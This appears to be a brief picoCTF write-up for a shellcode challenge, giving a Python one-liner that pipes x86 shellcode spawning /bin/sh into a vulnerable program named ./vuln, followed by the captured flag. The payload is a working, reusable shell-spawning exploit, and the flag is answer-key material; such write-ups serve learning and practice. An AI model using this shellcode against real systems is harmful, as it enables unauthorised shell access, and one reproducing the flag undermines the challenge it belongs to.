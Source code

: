 # shellcode

This program get input and 

Just execute shell code. following code execute /bin/sh

(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")' && cat) | ./vuln

`picoCTF{shellc0de_w00h00_9ee0edd0}`